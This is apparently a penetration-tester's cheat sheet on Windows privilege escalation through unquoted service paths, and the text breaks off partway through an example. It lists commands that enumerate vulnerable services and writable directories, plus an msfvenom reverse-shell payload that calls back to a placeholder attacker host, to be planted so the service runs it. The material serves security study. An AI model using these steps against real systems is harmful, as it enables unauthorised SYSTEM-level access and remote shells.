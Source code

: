 {% tab title="Unquoted Path" %}
[**https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae**](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">C:\Program.exe 
C:\Program Files\My.exe 
C:\Program Files\My Program\My.exe 
C:\Program Files\My Program\My service\service.exe

# Search for services with spaces and without quotes
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.PathName -notlike "C:\Windows\system*" -and $_.PathName -notlike '"*"*'}
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"
# Before we go on, let’s check if we can start and stop the identified service
Start-Service Service
Stop-Service Service
# or
sc.exe stop windowsService
sc.exe start windowsService
# If so, check which of those paths is writable for us. Place the malicious binary and restart the service.
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=443 -f exe-service -o rev-svc.exe
<strong>
</strong><strong>
</strong><strong># Check for services in which the executable paths don't contain quotes 
</strong>		wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
# do following checks for unquoted service paths: 
		# service runs under system (SERVICE_START_NAME: LocalSystem) 
		sc qc unquotedsvc 
		# extra verification if bin path is unquoted (BINARY_PATH_NAME)
		sc qc unquotedsvc 
		# you have write access to one of these directories
		icacls "C:\ "
		icacls "C:\Program Files"
		icacls "C:\Program Files\Unquoted Path Service"
# ---------------
# Choose the name of the exploit according to the paths the system will look for the binaries
    # in our example below, we have write access to the "C:\Program Files\Unquoted Path Service\" directory
